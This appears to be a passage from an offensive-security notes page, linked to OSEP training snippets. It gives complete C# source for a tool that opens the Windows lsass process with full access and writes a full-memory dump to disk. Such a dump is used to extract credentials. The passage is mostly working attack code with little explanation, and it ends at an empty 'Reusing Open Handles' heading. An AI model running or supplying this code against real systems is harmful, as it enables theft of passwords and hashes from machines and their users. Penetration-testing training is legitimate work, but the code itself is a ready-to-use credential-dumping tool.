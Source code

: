 
### C\# Implementation

* [https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/MiniDump](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/MiniDump)

{% code title="SharpMiniDump.cs" %}
```csharp
using System;
using System.IO;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace SharpMiniDump
{
    public class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        public static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream(@"C:\Windows\tasks\lsass.dmp", FileMode.Create);

            Process[] lsassProc = Process.GetProcessesByName("lsass");
            int lsassPid = lsassProc[0].Id;
            
            IntPtr hProcess = OpenProcess(
                0x001F0FFF, // PROCESS_ALL_ACCESS
                false,
                lsassPid);

            bool res = MiniDumpWriteDump(
                hProcess,
                lsassPid,
                dumpFile.SafeFileHandle.DangerousGetHandle(),
                2, // MiniDumpWithFullMemory
                IntPtr.Zero,
                IntPtr.Zero,
                IntPtr.Zero);
        }
    }
}
```
{% endcode %}




## Reusing Open Handles
